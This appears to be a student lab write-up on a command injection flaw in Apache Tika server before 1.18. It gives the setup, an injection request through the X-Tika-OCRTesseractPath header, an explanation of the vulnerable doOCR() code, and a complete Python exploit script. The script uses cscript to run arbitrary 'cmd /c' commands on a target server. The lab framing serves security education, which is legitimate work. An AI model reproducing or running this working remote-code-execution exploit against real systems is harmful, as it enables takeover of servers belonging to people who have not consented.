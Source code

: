 # PS
- Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server < 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environmental Setup

We downloaded the vulnerable version of the apache tika server in a windows 10 machine (running on azure windows 10 server instance) from https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the tika server with the following command .  

```
java -jar tika-server-1.17.jar
```

# Vulnerability and Exploit
## Exploit-1: Arbitrary Command Execution

We are able to inject arbitrary commands to the tika server through specifically crafted header prefix `X-Tika-OCRTesseractPath`. This header specifies the path to the OCR Tesseract binary `tesseract.exe` but we can inject arbitrary commands through it using the fact that Windows ignores anything provided after double quotes.

The injection HTTP request looks something like
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers.  
The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with `"X-Tika-OCR" prefix`, the server code invokes `processHeaderConfig()` function which parses the HTTP request and constructs the `TesseractOCRConfig` object.  
The `doOCR()` function then uses the TesseractOCRConfig object to construct the command for `ProcessBuilder`.  However, the doOCR() function while constructing the command appends the `OCRTesseractPath` (i.e. the passed `calc.exe`) with `tesseract.exe`.  
The resultant command looks like `"calc.exe"tesseract.exe ..."`. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command `calc.exe`.  

The command constructed by the doOCR() function is as follows.  
```cmd.exe
"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0
``` 


## Exploit-2: JScript Execution

The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is `".tmp"`. Also, uploading an image file with some code would due to verification of the `magic bytes` of the image. The work around is to use `Cscript` that takes the first argument as the script and allows to use `"//E:engine" flag` to specify the script engine so that the file extension does not matter. Also, setting the content type to `"image/jp2"` forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like
```  
"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0
```
This is exploited in Exploit-2 code.

```python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"
        }

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
        requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```


# Analysis of Server Code Snippets
### TikaResource.java
  https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

```java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

## TesseractOCRParser.java
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

```java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```
